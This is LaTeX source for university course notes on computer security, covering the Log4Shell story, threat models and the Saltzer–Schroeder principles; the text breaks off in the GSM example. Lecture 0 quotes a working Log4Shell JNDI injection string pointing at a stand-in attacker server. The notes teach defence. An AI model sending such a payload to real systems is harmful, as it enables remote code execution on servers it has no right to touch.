\documentclass[11pt,a4paper,openany]{book}

\usepackage{course}
\usepackage[edges]{forest}

% Two boxes of this document only (course.tex does not change), as in respsoft/course.tex:
% goatbox, the idea of a section told as simply as possible, and recapbox, the big
% end-of-chapter recap to read the night before the exam (breakable: it is long).
\definecolor{goatColor}{HTML}{8A5A1F}
\definecolor{recapColor}{HTML}{5B3A8E}
\newtcolorbox{goatbox}[1][]{
  enhanced, colback=goatColor!6, colframe=goatColor,
  boxrule=0.5pt, arc=3pt, left=5pt, right=5pt, top=4pt, bottom=4pt,
  fonttitle=\bfseries\small, coltitle=white,
  colbacktitle=goatColor,
  attach boxed title to top left={yshift=-3pt, xshift=6pt},
  boxed title style={size=small, colback=goatColor, boxrule=0pt, arc=2pt},
  title=Explained to a goat, #1
}
\newtcolorbox{recapbox}[1][]{
  enhanced, breakable, colback=recapColor!5, colframe=recapColor,
  boxrule=1.2pt, arc=4pt, left=8pt, right=8pt, top=8pt, bottom=8pt,
  fonttitle=\bfseries\large, coltitle=white,
  colbacktitle=recapColor,
  title=Exam-ready recap, #1
}

\begin{document}
\raggedbottom

\coursetitle{Computer Security and Privacy --- explained}{BA5}{2026--2027}

\tableofcontents
\clearpage

These notes are the course notes of COM-301 \emph{Computer Security and Privacy} (EPFL, Fall
2026), with three additions on top of every chapter:
\begin{itemize}
  \item what the slides and the speaker notes say that the short notes left out (stories,
        answers to the in-class questions, details of the exercises);
  \item \textbf{brown boxes, ``Explained to a goat''}: the idea of a section in the simplest
        possible words, to read first when a definition does not click;
  \item \textbf{a big purple box at the end of each chapter, the ``Exam-ready recap''}: everything
        to know for the exam, short enough to be reread the night before, complete enough to be
        understood alone. Each recap ends with \textbf{how the chapter builds on the previous
        ones}, so that the course reads as one story.
\end{itemize}
After the MAC chapter, a \textbf{tree of every access control seen} shows which one is a special
case of which, and what each one adds.

% =========================================================
\chapter{Lecture 0 : Preliminaries}
% =========================================================

\begin{rembox}[title=In a nutshell]
\textbf{What is this lecture about?} Why the course exists, told through one real disaster
(\textbf{Log4Shell}, 2021), what ``hacking'' means, what the course aims at (principles that
outlast technology, \textbf{adversarial thinking}, a toolbox of mechanisms) and how it is
organised. \\
\textbf{Why is it useful?} It sets the attitude of the whole course: always ask ``how can this be
made to fail?'', not only ``how can this be made to work?''.
\end{rembox}

\section{An introductory story: Log4Shell}

\begin{exbox}[title={Log4j and JNDI}]
\textbf{Log4j} is a very popular Java logging library: applications use it to record user
logins, errors, system events, debug information. It is in millions of applications, from
Minecraft to the cloud services of Apple, Amazon and Google. It can expand placeholders in the
logged text, e.g.\ \texttt{log.info("Running on Java version: \$\{java:version\}.")}. \\
\textbf{JNDI} is a Java service that distributes serialized objects \emph{and code}. Log4j
supported JNDI lookups inside log messages, e.g.\ \texttt{\$\{jndi:ldap://epfl.ch/statusJava\}}:
the logger fetches an object from a remote server while logging.
\end{exbox}

\begin{exbox}[title={The attack (CVE-2021-44228, ``Log4Shell'', 10 December 2021)}]
A chat server logs the messages of its users: \texttt{logger.debug("User \{\} sent message
\{\}", user, message)}. A user sends the message
\texttt{\$\{jndi:ldap://myAttackerServer.ch/anAttackerObject\}}. While \emph{logging} it, the
server contacts the attacker's server, downloads the attacker's object and runs its code:
\textbf{remote code execution} from a chat message. \\
Severity score \textbf{10.0 / 10}. Attack surface: nearly every major organisation. Consequences:
ransomware, cryptocurrency miners, theft of data and credentials, persistent backdoors. A global
scramble to patch.
\end{exbox}

\begin{propbox}[title=Lessons learned]
\begin{itemize}
  \item The obvious one: \textbf{sanitize user inputs} (see sanitization, Lecture 4).
  \item \textbf{Software supply chain security}: you are vulnerable to the flaws of the software
        you use.
  \item \textbf{Software Bill of Materials (SBOM)}: know exactly which components are in your
        software --- you cannot patch what you do not know you have.
  \item \textbf{Defence in depth}: a single flaw can bypass defences; several layers are needed
        (Lecture 1).
  \item \textbf{Default configurations matter}: dangerous features should be disabled by default
        (fail-safe defaults, Lecture 2).
  \item Security requires communication: vulnerabilities are published as \textbf{CVEs}
        (Common Vulnerabilities and Exposures).
\end{itemize}
\end{propbox}

\begin{goatbox}
A logging library is a notebook where a program writes what happens. Log4j's notebook had a
magic feature: some words written in it were ``instructions to go fetch something''. So a
stranger only had to \emph{say} those words in a chat for the server to write them down, go fetch
the stranger's package, and open it. Nobody had thought that writing in a notebook could be
dangerous.
\end{goatbox}

\section{What hacking is, and what this course is about}

\begin{defnbox}[title=Two views of hacking]
\begin{itemize}
  \item \textbf{Hacking as ``breaking things''} (the common view): exploiting vulnerabilities for
        unauthorized access or malicious intent. The course studies it a little, to understand
        the attacker's methods and build effective defences.
  \item \textbf{Hacking as ``creative problem solving''} (the original MIT definition): finding
        clever, elegant, often unintended solutions or uses of a system, from a deep
        understanding of it. The course embraces this spirit to study the security of systems.
\end{itemize}
\textbf{Not} the purpose: a ``how-to-hack'' course, advanced exploitation, CTF training (join the
EPFL CTF team for that).
\end{defnbox}

\begin{defnbox}[title=The three aims of the course]
\begin{enumerate}
  \item Understand the \textbf{basic concepts and principles} of security design and engineering,
        which will outlast current technology.
  \item Learn to \textbf{model threats} and think critically about security problems:
        \textbf{adversarial thinking}.
  \item Get familiar with \textbf{security mechanisms}, their purpose and their limitations: a
        \textbf{toolbox} for security engineering (know the tools, evaluate their pros and cons
        in a scenario, know where to search further).
\end{enumerate}
Topics: principles, access control, applied cryptography, authentication, attacks and malware,
software security, web \& network security, privacy.
\end{defnbox}

\begin{exbox}[title={The security mindset: ``Keep the change'' (Bank of America)}]
If you buy something for $X$ dollars and $Y$ cents, the bank charges you $X+1$ and puts $1-Y$ in
your savings account (a coffee at \$2.75: charged \$3, \$0.25 saved). The first three months, the
bank does not charge the $+1$, it only adds the cents to the savings. \textbf{What can go wrong?}
(The slides leave the question open; one answer:) buy many tiny things priced \$X.01 during the first three months: each gives you \$0.99 of free
savings. \\
``Good engineering involves thinking about how things can be made to work; the security mindset
involves thinking about how things can be made to fail.'' (Bruce Schneier)
\end{exbox}

\begin{goatbox}
A normal engineer asks ``does my fence keep the goats in?''. A security engineer asks ``if I were
a very clever goat who \emph{wants} to get out, where would I push?''. This course trains you to
be that clever goat, so that you build better fences.
\end{goatbox}

\section{Organisation}

\begin{rembox}[title=Course organisation]
\begin{itemize}
  \item Lectures on Thursday morning, interleaved with problem solving; exercise sessions
        (programming homework Q\&A, theory exercises, practice problem sets).
  \item \textbf{5 graded programming assignments}, done \textbf{individually}, in Python, on Linux
        with root access (own machine or the COM-301 VM).
  \item \textbf{Mid-term} (Tuesday Nov 3, 2026) and \textbf{final} (January 2027): closed book,
        only a cheat sheet.
  \item \textbf{Grade} $= 80\%$ final $+ 10\%$ assignments $+ 10\%$ mid-term. You are never
        graded in lectures, exercises or on the forum (EdStem): ask questions.
  \item Books: Gollmann \emph{Computer Security}, Anderson \emph{Security Engineering}, Stallings
        \& Brown \emph{Computer Security: Principles and Practice}. Read the news to train your
        adversarial thinking.
\end{itemize}
(Joke of the slides: ``Moodle restrictions are not an actual access control mechanism''.)
\end{rembox}

\begin{recapbox}[title={Exam-ready recap --- Lecture 0: Preliminaries}]
\begin{itemize}
  \item \textbf{Log4Shell} (CVE-2021-44228, score 10/10): Log4j expanded \texttt{\$\{jndi:\ldots\}}
        in logged text, so a logged user message made the server download and run the
        attacker's code. Lessons: sanitize inputs, supply chain security, SBOM, defence in depth,
        safe defaults.
  \item \textbf{Hacking}: breaking things vs.\ creative problem solving (original MIT meaning).
  \item \textbf{Aims}: lasting principles, \textbf{adversarial thinking} (``how can it be made to
        fail?''), a toolbox of mechanisms with their limits.
  \item Grade: 80\% final, 10\% assignments, 10\% mid-term; exams closed book with a cheat sheet.
\end{itemize}
\textbf{How it builds on what came before}: this is the starting point. Every later chapter is an
answer to the Log4Shell question: what must hold (policy), against whom (threat model), with what
(mechanisms), and how to design them so that one forgotten detail does not break everything.
\end{recapbox}

% =========================================================
\chapter{Lecture 1 : Basics}
% =========================================================

\begin{rembox}[title=In a nutshell]
\textbf{What is this lecture about?} The vocabulary of security: what we want to protect
(\emph{assets}), against whom (the \emph{adversary}), what ``secure'' means (the
\emph{security policy}) and with what tools (\emph{mechanisms}). \\
\textbf{Why is it useful?} Every later lecture reuses these words. Before building or
attacking anything, you must be able to say clearly \emph{what} must hold and
\emph{against which attacker} --- otherwise ``secure'' means nothing.
\end{rembox}

\begin{rembox}[title=Why a course on security?]
Ordinary engineering asks for \textbf{correctness}, \textbf{safety} and
\textbf{robustness} against accidental errors. Security additionally requires that
properties hold in the presence of a \textbf{deliberate, strategic adversary}.
\end{rembox}

\begin{defnbox}[title={Correctness, safety, robustness (what we usually ask)}]
\begin{itemize}
  \item \textbf{Correctness} --- for a given input, provide the expected output.
  \item \textbf{Safety} --- well-formed programs cannot have bad (even dangerous) outputs (an
        elevator program that fails must not make the elevator fall).
  \item \textbf{Robustness} --- cope with errors (in the input and in the execution) without
        crashing, and stay correct and safe.
\end{itemize}
These cover \emph{expected} events and errors that happen \textbf{at random} (a programmer's
mistake, a sensor out of range, the Y2K bug). In security, the bad events are \textbf{provoked on
purpose} by the adversary, who makes the worst case happen whenever it pays: a low-probability
event cannot be discarded, because if it is possible the adversary will make it happen.
\end{defnbox}

\begin{goatbox}
A farmer builds a fence against wind and storms: those come at random, so a fence that resists
the usual weather is fine. Security is a fence against a fox: the fox \emph{looks} for the one
loose plank, and comes back every night. You must think about the worst plank, not the average
one.
\end{goatbox}

\section{Security properties}

\textbf{Properties} of a computer system must hold in the presence of a \textbf{resourced strategic adversary}.

\begin{defnbox}[title=CIA triad]
\begin{itemize}
  \item \textbf{Confidentiality} — prevention of unauthorized \emph{disclosure} of information.
  \item \textbf{Integrity} — prevention of unauthorized \emph{modification} of information.
  \item \textbf{Availability} — prevention of unauthorized \emph{denial of service}.
\end{itemize}
\end{defnbox}

\begin{exbox}[title=CIA on a bank account]
The adversary should not be able to \textit{read} my statement (confidentiality),
\textit{change} my balance (integrity), or \textit{block} my access to the account
(availability).
\end{exbox}

\begin{rembox}[title=Beyond the CIA triad]
Modern systems also care about \textbf{authenticity}, \textbf{anonymity},
\textbf{isolation}, and more.
\end{rembox}

\begin{defnbox}[title={Not-so-traditional (but important) properties}]
\begin{itemize}
  \item \textbf{Authenticity} --- entities are who they say they are (e.g.\ to grant access to
        a building).
  \item \textbf{Anonymity} --- use a digital system without revealing one's identity (e.g.\
        read political content without fear under an oppressive regime).
  \item \textbf{Non-repudiation} --- an entity cannot deny having done an action (e.g.\ paying
        for goods online; digital signatures, Lecture 6).
\end{itemize}
More advanced properties exist; experts define them precisely with \textbf{security games}.
\end{defnbox}

\begin{goatbox}
Confidentiality: nobody reads the goat's diary. Integrity: nobody scribbles in it. Availability:
nobody hides it so the goat cannot write in it any more. The other properties are about people:
is this really the goat (authenticity)? can the goat stay unknown (anonymity)? can the goat say
``I never wrote that'' (non-repudiation forbids it)?
\end{goatbox}

\section{Security policy}

\begin{defnbox}[title=Security policy]
A high-level description of the \textbf{security properties} that must hold, in
relation to \textbf{assets} and \textbf{principals}.
\begin{itemize}
  \item \textbf{Assets (objects)} — anything of value that needs protection (data, files, memory, \ldots).
  \item \textbf{Principals (subjects)} — people, programs, services, \ldots (never the adversary).
\end{itemize}
\end{defnbox}

\begin{propbox}[title=Properties in terms of principals and assets]
\begin{itemize}
  \item \textbf{Confidentiality} — authorized \textbf{users} may read a \textbf{file}.
  \item \textbf{Integrity} — authorized \textbf{programs} may write a \textbf{file}.
  \item \textbf{Availability} — authorized \textbf{services} can access a \textbf{file}.
\end{itemize}
\end{propbox}

\begin{warnbox}[title=Why can the principals not contain the adversary?]
The adversary may not be a user of the system, may be outside it, or may have been
\textbf{overlooked} when the policy was written. Bad adversarial modelling is one of the main
sources of problems.
\end{warnbox}

\begin{goatbox}
The security policy is the list of house rules: what is precious in the house (assets: the hay,
the milk), who lives there (principals: the farmer, the dog) and what must stay true (only the
farmer opens the hay barn). The fox is not in the list of who lives there: the rules are written
\emph{against} it.
\end{goatbox}

\section{The adversary}

\begin{defnbox}[title=Threat model]
Describes the \textbf{resources} available to the adversary and its \textbf{capabilities}
(observe, influence, corrupt, \ldots).
\end{defnbox}

\begin{exbox}[title=Capabilities and resources]
\textbf{Capabilities}: observe a part of the system (``the adversary can observe my
connection''), influence it, corrupt entities to extract secrets or make them act for the
adversary (``the adversary can corrupt my machine'', ``the adversary controls a bank
employee''). \\
\textbf{Resources}: computing power, time available for the attack (real time or a week),
storage (some observations, or the whole history of the system). \\
Security policies are written \textbf{within} a threat model and give no guarantee outside it.
Threat modelling is a very hard task.
\end{exbox}

\begin{defnbox}[title=Adversary]
A malicious entity aiming to breach the security policy. The adversary is
\textbf{strategic}: it always picks the \textbf{optimal} way to use its resources to
violate a security property.
\end{defnbox}

\begin{rembox}[title=Key vocabulary]
\begin{itemize}
  \item \textbf{Vulnerability} — a specific weakness an adversary could exploit (\textit{e.g.\ a password shown in plaintext}).
  \item \textbf{Threat} — the feared event, i.e.\ the adversary's goal: who might attack which assets, using what resources, with what goal, how, and with what probability (\textit{e.g.\ a hacker wants to steal money from the bank; a student wants to learn my password by looking over my shoulder}). A vulnerability may be exploited by adversaries interested in many different assets.
  \item \textbf{Harm} — what actually happens if the threat materializes (\textit{e.g.\ the adversary steals the money}).
\end{itemize}
If the properties hold within the threat model, no vulnerability can be exploited to
realize a threat, so no harm occurs.
\end{rembox}

\begin{goatbox}
The threat model is the description of the fox: how strong it is, how long it can dig, whether
it can climb. A vulnerability is a hole in the fence. A threat is ``the fox wants the chickens''.
The harm is the chickens actually eaten. If the fence holds against \emph{this} fox, the fox finds
no usable hole, and no chicken is eaten.
\end{goatbox}

\section{Security mechanisms}

\begin{defnbox}[title=Security mechanism]
A technical mechanism (software, hardware, cryptography, procedures, \ldots) used to
ensure that the security policy is not violated by an adversary
\underline{within the threat model}.
\end{defnbox}

\begin{exbox}[title=Examples]
\textbf{Policy}: ensure the log of transactions is not tampered with by a single employee \\
\textbf{Mechanism}: keep a copy of the log on multiple computers, such that no single employee
has access to all of them \\[3pt]
\textbf{Policy}: ensure messages cannot be read by anyone but the sender and the receiver \\
\textbf{Mechanism}: encrypt the message before sending \\[3pt]
Mechanisms can be software (an antivirus), hardware (a smart card), maths (cryptography),
architecture (distribute data over several systems), people or organisational procedures:
\textbf{security mechanisms can be engineered}.
\end{exbox}

\begin{propbox}[title=Composing mechanisms]
Security does \textbf{not} increase linearly with the number of mechanisms.
\begin{itemize}
  \item \textbf{Defence in depth} (AND) — secure as long as \emph{one} mechanism holds.
  \item \textbf{Weakest link} (OR) — insecure as soon as \emph{any one} mechanism fails.
\end{itemize}
\end{propbox}

\begin{exbox}[title=One example of each]
\textbf{Defence in depth}: two-factor authentication --- as long as one factor stays secure, the
system resists (the strongest mechanism sets the strength). \\
\textbf{Weakest link}: password recovery with a security question --- if \emph{either} the
password \emph{or} the answer to the question is known to the adversary, the account is broken
(the weakest mechanism sets the strength).
\end{exbox}

\begin{warnbox}[title=Humans are part of the system]
Social engineering, phishing, and weak/reused/written-down passwords are frequently the
weakest link — but that is no excuse to neglect the rest of the system.
\end{warnbox}

\begin{goatbox}
A mechanism is a tool that makes a rule hold: a lock, a code, a guard. Two locks can help or
hurt. Two locks on the \emph{same} door (open only if both are broken) is defence in depth. Two
\emph{different} doors into the same barn (one broken door is enough) is the weakest link: adding
a door made the barn weaker. And the farmer who leaves the key under the mat is part of the
system too.
\end{goatbox}

\section{Showing a system is secure}

\begin{rembox}[title=Attacker vs.\ defender]
\textbf{Attacker}: one way to violate one property is enough (within the threat model). \\
\textbf{Defender}: must show \textbf{no} adversary strategy violates the policy —
security is always relative to \textbf{a specific threat model}.
\end{rembox}

\begin{rembox}[title={``Script kiddies''}]
No need for a savvy adversary: people download open-source attack tools, point them at a target
and press ``Go''. The only requirement is to find the tool that works.
\end{rembox}

\begin{defnbox}[title=Secure]
A system is \textbf{secure} if an adversary constrained by a specific threat model
cannot violate the security policy.
\end{defnbox}

\begin{warnbox}[title={``This system is secure'' means nothing}]
The sentence alone is void of content. One can only say ``this system is secure \textbf{under
this threat model}''.
\end{warnbox}

\begin{defnbox}[title=Security argument]
A rigorous argument (verbal or mathematical) that the security mechanisms in place are
effective in maintaining the security policy — \textbf{subject to the assumptions of
the threat model}.
\end{defnbox}

\begin{warnbox}[title=Composition is hard]
A useful threat model must constrain the adversary, otherwise no security argument is
possible. Security arguments for the \textbf{composition} of mechanisms are notoriously
hard to get right.
\end{warnbox}

\begin{defnbox}[title={How secure? Worst case vs.\ average case}]
How to measure the degree of protection is an open question; two ways of reasoning:
\begin{center}
\begin{tabularx}{\linewidth}{@{}l X X@{}}
\toprule
 & \textbf{Worst case} & \textbf{Average case} \\
\midrule
Against   & worst user input, worst adversary & typical users, worst adversary \\
Users     & no assumption on their behaviour & need to define a typical user and which actions matter \\
Guarantee & strong, but pessimistic: low performance & more fragile (risk-based), better utility \\
Example   & cryptographic primitives & data anonymization \\
\bottomrule
\end{tabularx}
\end{center}
\end{defnbox}

\begin{goatbox}
The fox attacks, the farmer defends. The fox needs \emph{one} hole; the farmer must show there
is \emph{no} hole the fox can use --- and only for the fox he described. ``My farm is safe'' means
nothing; ``my farm is safe against a fox that cannot climb'' is a real statement, and the reasons
why (the security argument) must be written down.
\end{goatbox}

\section{Security engineering process}

\begin{algbox}[title=Three-stage process]
\begin{enumerate}
  \item \textbf{High-level specification} — architecture, security policy (principals, assets, properties), threat model.
  \item \textbf{Security design} — select/design mechanisms; state the security argument (which mechanism maintains which property).
  \item \textbf{Secure implementation} — implement the mechanisms, ensure conformance to the design, perform security testing.
\end{enumerate}
\end{algbox}

\begin{rembox}[title=Why the threat model comes first]
Without a threat model there is no security argument: you cannot argue that mechanisms hold
against an adversary you never described.
\end{rembox}

\begin{goatbox}
Building a secure barn is three steps: first draw the barn and write who may do what and which
fox you fear; then choose the locks and explain why they stop that fox; then build them exactly as
drawn and try to break in yourself.
\end{goatbox}

\begin{keybox}[title=Summary]
\begin{itemize}
  \item Security problems always involve an \textbf{adversary}, who is \textbf{strategic}.
  \item The adversary's capabilities define a \textbf{threat model}.
  \item \textbf{Security mechanisms} aim at fulfilling a \textbf{security policy within a threat model}.
  \item Showing security means providing a \textbf{security argument}.
\end{itemize}
\end{keybox}

\begin{recapbox}[title={Exam-ready recap --- Lecture 1: Basics}]
\textbf{Computer security} = properties of a system must hold \textbf{in the presence of a
resourced, strategic adversary} (not random errors: correctness / safety / robustness are not
enough).
\begin{itemize}
  \item \textbf{CIA}: confidentiality (no unauthorized \emph{disclosure}), integrity (no
        unauthorized \emph{modification}), availability (no unauthorized \emph{denial of
        service}). Also: authenticity, anonymity, non-repudiation.
  \item \textbf{Security policy}: which \textbf{properties} must hold on which \textbf{assets}
        (objects) for which \textbf{principals} (subjects, never the adversary).
  \item \textbf{Threat model}: the adversary's \textbf{capabilities} (observe, influence,
        corrupt) and \textbf{resources} (compute, time, storage). The adversary is
        \textbf{strategic}: always the best attack.
  \item \textbf{Vocabulary}: vulnerability (weakness) $\to$ exploited to realise a threat (feared
        event / goal) $\to$ harm (what actually happens).
  \item \textbf{Security mechanism}: anything (software, hardware, crypto, people, procedures)
        that keeps the policy within the threat model.
  \item \textbf{Composition}: defence in depth = secure while \emph{one} holds (2FA); weakest
        link = broken when \emph{any} fails (password recovery question). Humans are part of the
        system (phishing, social engineering).
  \item \textbf{Secure} = an adversary \emph{within the threat model} cannot violate the
        policy; shown by a \textbf{security argument} (verbal or mathematical). Attacker needs
        one way, defender must exclude all. Worst-case (strong, slow: crypto) vs.\ average-case
        (risk-based: anonymization) security.
  \item \textbf{Process}: (1) specification: architecture, policy, threat model; (2) design:
        mechanisms + security argument; (3) implementation, conformance, testing.
\end{itemize}
\textbf{How it builds on what came before}: Lecture 0 showed a disaster (Log4Shell); this
lecture gives the words to describe it: an asset (the server), a threat model (anyone who can send
a chat message), a vulnerability (JNDI lookups in logs), a harm (remote code execution). Every
later chapter is a set of \emph{mechanisms} for a \emph{policy} under a \emph{threat model}.
\end{recapbox}

% =========================================================
\chapter{Lecture 2 : Principles of computer security}
% =========================================================

\begin{rembox}[title=In a nutshell]
\textbf{What is this lecture about?} Nobody knows how to build a system without bugs, so
experience gave us \textbf{8 (+2) rules of thumb} (Saltzer \& Schroeder) to design
security mechanisms: keep it simple, refuse by default, check every access, do not rely on
secrecy of the design, never trust a single person, give only the rights needed, share as
little as possible, make security easy to use. \\
\textbf{Why is it useful?} These principles are a \textbf{toolbox to judge a design}: when
you look at a system (or an attack), you can ask ``which principle was violated?''. Most
real-world breaches (Heartbleed, MongoDB, S3 leaks, \ldots) are a principle that was
broken because of a bad tradeoff.
\end{rembox}

\begin{rembox}[title=Where do the principles come from?]
Saltzer \& Schroeder, \textit{The Protection of Information in Computer Systems} (1975),
abbreviated \textbf{[SS75]}: \textbf{8 (+2) principles} at the core of security
engineering practice. Experience has shown that they \textbf{guide} the design and
contribute to an implementation without security flaws. They are still used today
(e.g.\ to analyse the threat model of machine learning systems).
\end{rembox}

\begin{warnbox}[title=How to use the principles]
Always try to follow them. It may be impossible to follow all of them at once, but each must at
least be \textbf{considered}: if one is not followed, there must be a good reason, and the risks
of not following it must be understood.
\end{warnbox}

\begin{goatbox}
Nobody knows how to build a perfect barn. So old, wise farmers wrote down ten rules that make
barns break less often and less badly: keep it simple, keep the door closed unless told
otherwise, check everyone every time, do not count on the fox not knowing the plan, need two keys
for the big door, give each animal only the keys it needs, do not let animals share a trough,
make the locks easy enough that the farmer really uses them.
\end{goatbox}

\begin{exbox}[title=Heartbleed (CVE-2014-0160) --- why simplicity matters]
In OpenSSL (used for HTTPS), the \textit{Heartbeat} feature lets a client send a small
piece of data that the server echoes back. The attacker sends 1 byte but
\textbf{claims} to have sent 64\,000 bytes; the server, \textbf{without checking the
actual length}, replies with the byte plus 63\,999 bytes of its private memory.
\begin{itemize}
  \item \textbf{Feature complexity} --- Heartbeat was a non-essential feature: the
        added complexity created a \textbf{new attack surface}.
  \item \textbf{Codebase complexity} --- the bug was a single missing bounds check,
        hidden for two years because the huge codebase made auditing difficult.
\end{itemize}

The missing line was essentially \texttt{if (request\_size < actual\_size) \{ error; \}}. The
core cryptography of TLS was secure: the flaw was in an unsuspicious side feature. (Heartbleed
also started the fashion of vulnerabilities with a logo and a name, which raised public
awareness.)
\end{exbox}

\section{1 -- Economy of mechanism}

\begin{defnbox}[title=Economy of mechanism]
``Keep the [security mechanism / implementation] design as \textbf{simple and small}
as possible.'' (KISS principle)
\end{defnbox}

\begin{rembox}[title=Why?]
The mechanism needs to be \textbf{easy to audit and verify}. Operational testing is not
appropriate to evaluate security (penetration testing is nevertheless valuable).
\end{rembox}

\begin{rembox}[title={Why testing is not enough}]
Security is not about normal operation, nor about random faults: it is about what goes wrong when
the adversary chooses particular inputs, and one cannot test all inputs. Penetration testing
(trying to break the system) covers a bigger part of ``what could go wrong'' and is valuable, but
it can never give the \textbf{assurance} that nothing can go wrong. Only a mechanism small and
simple enough to be checked completely can.
\end{rembox}

\begin{defnbox}[title=Trusted Computing Base (TCB)]
\textbf{Every component} of the system (hardware / firmware / software) on which the
security policy relies. The TCB is \textbf{trusted} to operate correctly for the
security policy to hold.
\end{defnbox}

\begin{propbox}[title=Consequences of the TCB]
\begin{itemize}
  \item If something goes wrong \textbf{within} the TCB, \textbf{the security policy
        may be violated}; a failure \textbf{outside} the TCB should not matter for the
        policy.
  \item The TCB must be kept \textbf{small} to \textbf{ease verification} (economy of
        mechanism) and \textbf{diminish the attack surface}.
\end{itemize}
\end{propbox}

\begin{warnbox}[title=The verb ``to trust'']
The only proper use of ``to trust'' in security engineering is
\textbf{``X trusts Y will do Z''}.
\end{warnbox}

\begin{goatbox}
A big machine with a thousand gears hides a broken gear much better than a small one with five.
The TCB is the part of the barn you \emph{must} count on: the lock and the farmer who holds the
key. If anything outside it breaks (a window, a bucket), the hay is still safe; if the lock
breaks, it is not. So keep that part tiny, so you can check every screw.
\end{goatbox}

\section{2 -- Fail-safe defaults}

\begin{defnbox}[title=Fail-safe defaults]
``Base access decisions on \textbf{permission} rather than \textbf{exclusion}.'' [SS75]
\\
If something fails, be as secure as if it does not fail: errors / uncertainty should
err \textbf{on the side of the security policy}. Do \textbf{not} try to fix!
\end{defnbox}

\begin{rembox}[title={Why permission, and why not fix?}]
Permissions are given \emph{after thought}: if a permission exists, someone checked that the
action is allowed and safe. The space of non-permissions is \textbf{infinite}: one can never list
all harmful events in a blacklist. \\
After an error, the state of the system is unknown, so one cannot be sure that steps ``towards a
fix'' are safe: the safe move is to go back to a \textbf{known safe state} (deny, stop, roll
back).
\end{rembox}

\begin{propbox}[title={Whitelist, not blacklist}]
Use a \textbf{whitelist} (list what is allowed), not a blacklist (list what is
forbidden): a \textbf{lack of permission is easy to detect and solve}, whereas a
forgotten exclusion silently grants access.
\end{propbox}

\begin{exbox}[title=Fail-safe defaults]
\begin{itemize}
  \item Security door: if no permission, do not open.
  \item Form input: if no permission to write in $X$, do not write anywhere.
\end{itemize}
\end{exbox}

\begin{exbox}[title=MongoDB ransomware (2017) --- ease of use vs.\ security]
For a while, the default installation had \textbf{authentication turned off} and was
\textbf{bound to all network interfaces} (0.0.0.0) instead of localhost. Attackers
scanned the whole internet, connected without password, stole/deleted the data and left
a ransom note. Unsafe defaults + users who do not read the manual = no access control.
\end{exbox}

\begin{rembox}[title=Ransomware]
A ransomware \textbf{denies you access to your own data}, most commonly by
\textbf{encrypting your files}; the attacker then demands a \textbf{ransom payment} in
exchange for the key needed to decrypt them. Its prevalence exploded with the arrival of
cryptocurrencies.
\end{rembox}

\begin{exbox}[title={The first ransomware (1989)}]
20\,000 floppy disks labelled ``AIDS Information Introductory Diskette'' were mailed to attendees
of a WHO AIDS conference. After 90 boots, the malware encrypted (with simple, broken encryption)
all file names of the \texttt{C:} drive, hid directories, and asked for \$189 sent by post to a
P.O.\ box in Panama. Some victims panicked and wiped their drives: an Italian AIDS organisation
lost 10 years of research data. (A very similar attack later hit Elasticsearch databases left
open by default.)
\end{exbox}

\begin{goatbox}
The barn door is closed unless the farmer's list says ``this goat may enter''. If the list is
torn or the lock is jammed, the door stays \emph{closed}, never open. Writing ``wolves may not
enter'' is useless: tomorrow a bear comes, and he is not on the list of forbidden animals.
MongoDB shipped barns with the door wide open, expecting farmers to read the manual and close it.
They did not.
\end{goatbox}

\section{3 -- Complete mediation}

\begin{defnbox}[title=Complete mediation]
``\textbf{Every access to every object} must be checked for authority.'' [SS75]
\end{defnbox}

\begin{defnbox}[title=Reference monitor]
The component that \textbf{mediates ALL actions from subjects on objects} and ensures
they are according to the \textbf{policy}. It takes as input the request
(subject $\to$ object) and the policy, and writes to an \textbf{audit log}.
\end{defnbox}

\begin{warnbox}[title=Difficult to implement]
\begin{itemize}
  \item \textbf{Performance} --- checking everything is slow.
  \item \textbf{Time to check vs.\ time to use} --- the permission may change between
        the check and the use.
  \item \textbf{Modern distributed systems} --- you can only check what you see!
\end{itemize}
\end{warnbox}

\begin{rembox}[title=Why each difficulty]
\textbf{Performance}: think of how many memory accesses per second a computer makes, each one
checked. \textbf{Time of check vs.\ time of use}: between the check and the action the state may
change, so the check may be stale. \textbf{Distribution}: subjects and objects may be on
different machines and networks. A central monitor cannot see every access; a distributed one is
complex and hard to prove correct.
\end{rembox}

\begin{exbox}[title=Missing mediation --- the ``Gold Member'' cookie]
A streaming platform checks the subscription in the database \textbf{only once at
login}, then stores \texttt{\{'user': 'Alice', 'status': 'paid'\}} in a session cookie
and only looks at the cookie afterwards. Alice subscribes, logs in, unsubscribes (the DB
is correctly updated to ``unpaid''), and can still watch premium content until her
session expires: \textbf{violation of complete mediation}.
\end{exbox}

\begin{goatbox}
The guard must check the badge of every goat at every door, every time --- not only at the
gate in the morning. Otherwise a goat that was allowed in this morning but was kicked out at noon
keeps walking around all afternoon on its old ``I'm allowed'' sticker (the ``Gold Member''
cookie).
\end{goatbox}

\section{4 -- Open design}

\begin{defnbox}[title=Open design]
``The design should \textbf{not be secret}.'' [SS75] \\
When you design, \textbf{algorithms are public}; only \textbf{key elements} are kept
secret:
\begin{itemize}
  \item \textbf{Crypto} --- only keep the key secret;
  \item \textbf{Authentication} --- only keep the password secret;
  \item \textbf{Obfuscation} --- only keep the used noise secret.
\end{itemize}
\end{defnbox}

\begin{rembox}[title=Historical formulations]
\begin{itemize}
  \item \textbf{Kerckhoffs} (1883): the design of a system should not require secrecy.
        Every secret is a potential \textbf{failure point}: secrecy is a prime cause of weakness,
        openness means fewer points of failure.
  \item \textbf{Shannon} (1949): ``the enemy knows the system'' --- design systems
        assuming the enemy immediately gains full familiarity with them. Assuming the adversary
        does not know the system gives the adversary an advantage: he is \textbf{outside your
        threat model}.
  \item \textbf{Baran} (1964): the paradox of secrecy about secrecy --- without
        widespread scrutiny, weaknesses are more likely to be overlooked. Designing in secret
        prevents the conversations that find weaknesses.
\end{itemize}
\end{rembox}

\begin{propbox}[title=Why open design?]
\begin{itemize}
  \item Open design results in \textbf{better \& easier auditing}. \textbf{Linus' law}
        (Raymond, 1997): ``given enough eyeballs, all bugs are shallow'' --- more of a
        mantra: it needs many eyeballs, and defect density is high.
  \item \textbf{Secrecy is unrealistic}: assuming the design stays secret is a way to
        build a \textbf{bad threat model}.
  \item Key principle behind the academic discipline devoted to understanding computer
        security.
\end{itemize}
Famous failure of a closed design: \textbf{GSM encryption}.
\end{propbox}

\begin{exbox}[title={Closed designs that failed: GSM and DVD}]
\textbf{GSM encryption (1987)}: A5/1, with a 54-bit key (short on purpose, so that secret
services could brute-force it). It was reverse engineered and many serious attacks followed;
today A5/1 is decrypted in real time without the key (see also Lecture 5). \\
